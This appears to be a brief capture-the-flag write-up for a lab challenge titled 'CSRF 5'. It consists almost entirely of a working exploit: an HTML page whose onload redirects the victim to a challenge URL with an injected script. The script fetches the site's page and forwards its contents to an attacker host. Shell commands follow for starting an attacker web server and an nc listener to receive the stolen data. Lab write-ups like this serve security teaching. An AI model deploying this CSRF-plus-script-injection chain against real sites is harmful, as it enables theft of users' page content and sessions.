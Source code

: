 # CSRF 5

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>fetch(&quot;http://challenge.localhost/&quot;).then(res=>res.text()).then(data=>{window.location.href=&quot;http://hacker.localhost:5050?page=&quot;%2bencodeURIComponent(data);});</script'+'>'"></body>
</html>
```

Start the attacker server:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

Listen for the page content:

```shell
nc -l -v hacker.localhost 5050
```
